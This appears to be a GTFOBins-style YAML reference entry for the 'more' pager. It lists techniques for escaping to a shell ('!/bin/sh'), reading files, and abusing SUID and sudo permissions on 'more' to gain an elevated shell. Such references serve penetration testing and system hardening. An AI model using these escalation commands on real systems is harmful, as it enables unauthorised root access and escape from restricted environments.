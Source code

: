 ```yaml
---
name: more
functions:
  shell:
    - code: |
        TERM= more /etc/profile
        !/bin/sh
  file-read:
    - code: more file_to_read
  suid:
    - code: ./more file_to_read
  sudo:
    - code: |
        TERM= sudo -E more /etc/profile
        !/bin/sh
---
```

